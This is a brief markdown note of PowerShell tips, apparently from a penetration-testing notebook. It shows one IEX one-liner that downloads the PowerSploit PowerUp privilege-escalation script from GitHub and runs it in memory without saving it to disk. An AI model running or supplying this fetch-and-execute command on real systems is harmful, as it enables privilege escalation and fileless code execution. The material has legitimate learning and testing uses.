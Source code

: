 ```yaml
---
description: Some tips to use on powershell
---
```


# Powershell

### Execute .ps1

If you want to execute .ps1 file without storing it, you can use IEX :&#x20;

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1')
```
